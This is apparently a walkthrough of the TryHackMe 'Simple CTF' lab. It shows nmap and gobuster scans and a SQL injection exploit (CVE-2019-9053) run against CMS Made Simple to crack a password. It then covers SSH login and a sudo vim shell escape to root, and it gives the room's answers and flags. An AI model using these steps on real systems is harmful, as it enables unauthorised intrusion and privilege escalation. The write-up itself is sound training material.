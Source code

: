 ```yaml
---
description: 'https://tryhackme.com/room/easyctf'
---
```


# Simple CTF

## INIT

```text
export easyctf=10.10.150.200
ping $easyctf

echo "10.10.150.200 easyctf.thm" >> /etc/hosts
```

## How many services are running under port 1000?

```text
nmap -T5 -p1-1000 easyctf.thm
```

![](../.gitbook/assets/image%20%28425%29.png)

{% hint style="success" %}
2
{% endhint %}

## What is running on the higher port?

```text
nmap -sC -sV -T5 -p1-65535 easyctf.thm
```

![](../.gitbook/assets/image%20%28390%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## FTP

![](../.gitbook/assets/image%20%28448%29.png)

## HTTP

![](../.gitbook/assets/image%20%28444%29.png)

## GOBUSTER

```text
gobuster dir -u easyctf.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28426%29.png)

![](../.gitbook/assets/image%20%28450%29.png)

> CMS Made Simple 2.2.8

## What's the CVE you're using against the application?

![](../.gitbook/assets/image%20%28440%29.png)

![](../.gitbook/assets/image%20%28410%29.png)

{% hint style="success" %}
CVE-2019-9053
{% endhint %}

## To what kind of vulnerability is the application vulnerable?

![](../.gitbook/assets/image%20%28413%29.png)

{% hint style="success" %}
sqli
{% endhint %}

## What's the password?

```text
python3 easyctf.py -u http://easyctf.thm/simple --crack -wordlist /usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28439%29.png)

{% hint style="success" %}
secret
{% endhint %}

## Where can you login with the details obtained?

![](../.gitbook/assets/image%20%28397%29.png)

{% hint style="success" %}
ssh
{% endhint %}

## What's the user flag?

![](../.gitbook/assets/image%20%28379%29.png)

{% hint style="success" %}
G00d j0b, keep up!
{% endhint %}

## Is there any other user in the home directory? What's its name?

![](../.gitbook/assets/image%20%28383%29.png)

{% hint style="success" %}
sunbath
{% endhint %}

## What can you leverage to spawn a privileged shell?

```text
sudo vim -c ':!/bin/sh'
```

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

{% hint style="success" %}
vim
{% endhint %}

## What's the root flag?

```text
cat /root/root.txt
```

{% hint style="success" %}
W3ll d0n3. You made it!
{% endhint %}

